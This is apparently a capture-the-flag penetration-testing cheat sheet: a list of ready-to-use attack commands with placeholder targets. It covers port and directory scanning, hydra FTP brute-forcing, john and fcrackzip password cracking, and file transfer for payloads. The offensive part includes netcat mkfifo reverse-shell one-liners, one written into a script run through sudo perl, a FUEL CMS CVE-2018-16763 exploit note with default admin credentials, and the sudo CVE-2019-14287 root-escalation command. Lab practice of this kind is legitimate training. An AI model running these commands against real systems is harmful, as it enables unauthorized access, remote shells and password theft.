 # nmap scan
sudo nmap -sC -sV -v -oN nmap.md TARGET_IP 


# Gobuster Scan
sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/

sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt

sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt


# dirbuster scan
sudo dirb http://TARGET_IP/ -R 

# Cat all find read
cat *


# import TARGET_IP
$IP


# To Check Sudo Permissions
sudo -l
sudo su
su root

# curl command to change alphabets [agent-user] in web
sudo curl -A "CHANGE_LETTER" -L TARGET_IP


# prev esc linux bash shell
sudo bash

# download file from SSH TARGET MACHINE
scp USERNAME@TARGET_IP_ADDRS:FILENAME


# perl write to copy.sh [reverse shell]
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl

# FTP Usage
ftp TARGET_IP


# python shell - stable bash shell
python3 -c  'import pty;pty.spawn("/bin/bash")'


# FUEL CMS Exploit 1.4.1 CVE-2018-16763
run command with ""
example:
CMD: "ls -la"
default cred: admin: admin


# FUEL CMS Database login info
fuel/application/config
cat database.php


# netcat revershell
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TARGET_IP 1234 >/tmp/f"


# hydra command to brute-force FTP with username
sudo hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP ftp


# run python http server
sudo python -m SimpleHTTPServer 80


# wget download file
sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/
sudo wget http://YOUR_IP_ADDRS:8080/FILENAME


# john cracking the password
sudo john HASH_FILENAME --wordlist=/usr/share/wordlists/rockyou.txt

# john ZIP file cracking
sudo zip2john FILENAME.zip > OUTFILENAME

# fcrackzip command
fcrackzip <zip-file> -D -p /usr/share/wordlists/rockyou.txt

# 7zip
7z e ZIP_FILENAME  

# steghide command
steghide info FILENAME [info about filename]

steghide extract -sf FILENAME [extract]

# CyberChef to crack hash [base64]
https://gchq.github.io/CyberChef/

# sudo 1.8.21 exploit CVE-2019-14287
sudo -u#-1 /bin/bash [spawn as root] 
